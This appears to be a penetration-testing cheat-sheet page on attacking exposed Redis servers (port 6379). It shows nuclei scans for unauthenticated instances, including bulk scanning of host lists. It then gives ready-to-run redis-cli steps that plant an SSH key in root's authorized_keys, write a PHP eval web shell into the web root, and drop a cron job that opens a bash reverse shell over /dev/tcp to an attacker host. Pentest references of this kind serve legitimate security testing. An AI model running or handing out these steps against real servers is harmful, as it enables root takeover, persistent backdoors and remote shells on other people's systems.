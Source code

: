 # 6379 - Redis

## Potential Risks

### Unauthorized Access

```bash
# https://github.com/yuukisec/iPoCs
# RHOST=remoteHost; RPORT=6379
nuclei -t ~/ipocs -id redis-unauth -u $RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
nuclei -t ~/ipocs -id redis-unauth -l $RHOST_LIST -c 100 -bs 100
```

## Exploitation

### Write File

```bash
# Method 1: Write SSH public key
# RHOST=remoteHost; RPORT=
# Step 1: Generates an SSH key pair
if [ -f /tmp/.ssh_key ]; then; rm /tmp/.ssh_key /tmp/.ssh_key.pub; fi
ssh-keygen -t rsa -b 2048 -N "" -f /tmp/.ssh_key
(echo -e "\n\n"; awk '{print $1,$2;}' /tmp/.ssh_key.pub; echo -e "\n\n") > /tmp/.ssh_key_redis.pub
# Step 2: Upload SSH public key
cat /tmp/.ssh_key_redis.pub | redis-cli -h $RHOST -p $RPORT -x set santa
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /root/.ssh/ # The alternative is `CONFIG SET DIR /etc/ssh/`
> CONFIG SET DBFILENAME "authorized_keys"
> SAVE
# Step 3: Connect SSH using the private key
ssh -i /tmp/.ssh_key root@localhost

# Method 2: Write WebShell
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /var/www/html
> CONFIG SET DBFILENAME santa.php
> SET santa "\n\n\n\n<?php @eval($_REQUEST['santa']);?>\n\n\n\n"
> SAVE

# Method 3: Write Linux crontab
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /etc/cron.d
> CONFIG SET DBFILENAME santa_revs
> SET santa "\n\n\n\n* * * * * root bash -i >& /dev/tcp/$EHOST/$EPORT 0>&1\n\n\n\n"
> SAVE
```

For more information, please refer to page [OOB > Reverse Shell > crontab (unix-only)](../../others-high/out-of-band-technology.md#reverse-shell).

### GUI Tools

* [Another Redis Desktop Manager](https://goanother.com/cn/)
* [https://github.com/SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT)

